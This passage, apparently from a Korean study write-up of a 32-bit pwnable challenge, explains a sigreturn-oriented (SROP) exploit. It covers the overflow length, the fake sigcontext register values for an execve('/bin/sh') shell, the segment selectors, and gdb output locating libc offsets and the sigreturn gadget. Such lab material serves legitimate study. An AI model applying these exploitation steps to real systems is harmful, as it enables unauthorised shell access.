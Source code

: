 * "A"*66 이상 입력 시 Return Address 변조 가능.  
* sigreturn()함수를 이용해 레지스터에 필요한 값을 저장 
    * ESP : sigreturn() 함수 호출 후 이동할 주소("int 0x80" 명령어가 저장된 주소)
    * EBX : "/bin/sh" 문자열이 저장된 주소
    * EAX : execve() 함수의 시스템 콜 번호
    * EIP : "int 0x80" 명령어가 저장된 주소
    * CS : User Code(0x23)
    * SS : User Data / Stack(0x2b)

### **CS(Code segment) & SS(Stack Segment)**

* sigcontext 구조체 형태로 stack에 저장할 때 CS, SS 레지스터 설정을 해야한다.  
* 공격 코드들은 User Mode에서 실행되기 때문에 User Code / User Stack 값을  사용해야 한다.

| **Purpose** | **Segment(32bit)** | **Segment(64bit - 32bit)** |
|:---:|:---:|:---:|
| **Kernel Code** | 0x60 | 0x8 |
| **Kernel Data / Stack** | 0x68 | 0x18 |
| **User Code** | 0x73 | 0x23 |
| **User Data / Stack** | 0x7b | 0x2b |

### **Libc Offset**

```
gdb-peda$ vmmap
Start      End        Perm	Name
0x08048000 0x08049000 r-xp	/root/pwnable/srop32
0x08049000 0x0804a000 r--p	/root/pwnable/srop32
0x0804a000 0x0804b000 rw-p	/root/pwnable/srop32
0x0804b000 0x0806c000 rw-p	[heap]
0xf7e01000 0xf7e02000 rw-p	mapped
0xf7e02000 0xf7faf000 r-xp	/lib32/libc-2.23.so
0xf7faf000 0xf7fb0000 ---p	/lib32/libc-2.23.so
0xf7fb0000 0xf7fb2000 r--p	/lib32/libc-2.23.so
0xf7fb2000 0xf7fb3000 rw-p	/lib32/libc-2.23.so
0xf7fb3000 0xf7fb6000 rw-p	mapped
0xf7fb6000 0xf7fb9000 r-xp	/lib32/libdl-2.23.so
0xf7fb9000 0xf7fba000 r--p	/lib32/libdl-2.23.so
0xf7fba000 0xf7fbb000 rw-p	/lib32/libdl-2.23.so
0xf7fd3000 0xf7fd4000 rw-p	mapped
0xf7fd4000 0xf7fd7000 r--p	[vvar]
0xf7fd7000 0xf7fd9000 r-xp	[vdso]
0xf7fd9000 0xf7ffc000 r-xp	/lib32/ld-2.23.so
0xf7ffc000 0xf7ffd000 r--p	/lib32/ld-2.23.so
0xf7ffd000 0xf7ffe000 rw-p	/lib32/ld-2.23.so
0xfffdd000 0xffffe000 rw-p	[stack]

gdb-peda$ p 0xf7e4b020(printf)-0xf7e02000
$1 = 0x49020

gdb-peda$ p __kernel_sigreturn
$2 = {<text variable, no debug info>} 0xf7fd8000 <__kernel_sigreturn>
gdb-peda$ p 0xf7fd8000-0xf7e02000
$3 = 0x1d6000

gdb-peda$ x/3i 0xf7fd8000
   0xf7fd8000 <__kernel_sigreturn>:	pop    eax
   0xf7fd8001 <__kernel_sigreturn+1>:	mov    eax,0x77
   0xf7fd8006 <__kernel_sigreturn+6>:	int    0x80

gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
```